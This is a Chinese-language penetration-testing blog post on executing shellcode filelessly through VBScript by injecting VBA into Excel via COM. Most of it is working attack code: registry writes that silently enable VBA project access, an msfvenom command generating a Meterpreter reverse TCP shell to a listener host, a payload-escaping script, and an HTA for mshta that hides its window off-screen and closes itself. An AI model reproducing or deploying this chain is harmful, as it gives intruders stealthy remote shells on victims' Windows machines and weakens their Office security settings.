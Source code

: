 ```yaml
---
title: "VBS 无文件执行 ShellCode"
date: 2019-08-12T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['shellcode','vbs']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



既然 VBA 能够调用 Win API, 那 VBS 又何尝不可呢?

<!--more-->

## VBS 调用 VBA

[参考文章](http://demon.tw/programming/vbs-excel-invoke-windows-api.html)

VBS 并不能直接调用 Win API, 但是能够间接的执行 VBA 代码, 主要是通过创建 Excel 对象的方式来插入 VBA, 运行时会多出来一个 Excel.exe 的进程, 缺点是只有安装 Microsoft Office 后才能正常调用, WPS 都不行.

```
Dim WshShell
Dim oExcel
set WshShell = CreateObject("Wscript.Shell")
WshShell.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Office\11.0\Excel\Security\AccessVBOM",1,"REG_DWORD"
WshShell.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Office\12.0\Excel\Security\AccessVBOM",1,"REG_DWORD"
WshShell.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Office\14.0\Excel\Security\AccessVBOM",1,"REG_DWORD"
Set oExcel = CreateObject("excel.application")
Set oBook = oExcel.Workbooks.Add
Set oModule = oBook.VBProject.VBComponents.Add(1)
strCode = "VBA Code"
oModule.CodeModule.AddFromString strCode
oExcel.Run "Auto_Open"
oExcel.DisplayAlerts = False
```

利用这点, 通过 VBA 操纵 Win API 来执行 ShellCode.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f vba -o vba.txt
```

转义字符.

```
with open('text.txt','r') as f:
	text = f.readlines()

newtext = ''

for line in text:
	newline = line.replace('"', '""')
	newline = '"' + newline
	newline = newline.replace('\n', '" & vbCr & _ \n')
	newtext += newline

newtext += '"'

with open('payload.txt', 'w+') as f:
	f.write(newtext)
```

粘贴进 strCode 中, 然后执行脚本.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190812105534.png)

## 无文件落地执行

hta sct 都可以调用 VBS, 这里以 mshta 为例.

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Dim WshShell
Dim oExcel
set WshShell = CreateObject("Wscript.Shell")
WshShell.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Office\11.0\Excel\Security\AccessVBOM",1,"REG_DWORD"
WshShell.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Office\12.0\Excel\Security\AccessVBOM",1,"REG_DWORD"
WshShell.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Office\14.0\Excel\Security\AccessVBOM",1,"REG_DWORD"
Set oExcel = CreateObject("excel.application")
Set oBook = oExcel.Workbooks.Add
Set oModule = oBook.VBProject.VBComponents.Add(1)
strCode = THE_POSITION_YOU_SHOULD_PASTE_TO
oModule.CodeModule.AddFromString strCode
oExcel.Run "Auto_Open"
Self.Close
</script>
<body>
</body>
</HEAD> 
</HTML>
```

通过 mshta 执行, 反弹会话的时候会慢十几秒钟.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190812110506.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190812111333.png)

另外还有些兼容性的问题, 在 Windows 10, Office 2019 下需要开启 "信任对 VBA 工程对象模型的访问", 但会话还是会直接退出.